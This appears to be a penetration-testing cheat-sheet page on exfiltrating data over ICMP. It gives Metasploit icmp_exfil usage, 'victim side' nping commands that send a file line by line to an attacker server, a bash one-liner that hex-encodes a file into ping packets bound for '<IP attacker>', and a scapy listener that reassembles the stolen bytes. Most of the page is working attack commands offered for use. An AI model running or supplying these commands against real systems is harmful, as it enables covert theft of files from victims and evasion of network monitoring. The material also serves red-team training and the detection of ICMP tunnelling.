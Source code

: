 # ⭕ ICMP

## <mark style="color:red;">ICMP Exfiltration Service (Metasploit)</mark>

{% embed url="http://www.nocowsecurity.com/blog/2013/5/30/icmp-exfiltration" %}

This module is designed to provide a server-side component to receive and store files exfiltrated over ICMP echo request packets

```
msf > use auxiliary/server/icmp_exfil
msf auxiliary(icmp_exfil) > show actions
    ...actions...
msf auxiliary(icmp_exfil) > set ACTION < action-name >
msf auxiliary(icmp_exfil) > show options
    ...show and set options...
msf auxiliary(icmp_exfil) > run
```

on victim side:

```
nping --icmp <IP address of Metasploit server> --data-string ^BOF -c1
for /f "tokens=*" %%a in (<filename>) do nping --icmp <IP address of Metasploit server> --data-string "%%a\x0D" -c1
nping --icmp <IP address of Metasploit server> --data-string ^EOF -c1
sed 's/\\x0D/\n/g' <filename>
```

{% embed url="https://youtu.be/y_qBPaKdU7U" %}

## <mark style="color:red;">QueenSono</mark>

{% hint style="info" %}
* only work on Linux (due to the use of golang net icmp package)
* need `cap_net_raw capabilities`
{% endhint %}

{% embed url="https://github.com/ariary/QueenSono" %}

## <mark style="color:red;">Ping</mark>

```
#In order to exfiltrate the content of a file via pings you can do:
xxd -p -c 4 /path/file/exfil | while read line; do ping -c 1 -p $line <IP attacker>; done
#This will 4bytes per ping packet (you could probably increase this until 16)
```

```
from scapy.all import *
#This is ippsec receiver created in the HTB machine Mischief
def process_packet(pkt):
    if pkt.haslayer(ICMP):
        if pkt[ICMP].type == 0:
            data = pkt[ICMP].load[-4:] #Read the 4bytes interesting
            print(f"{data.decode('utf-8')}", flush=True, end="")

sniff(iface="tun0", prn=process_packet)
```
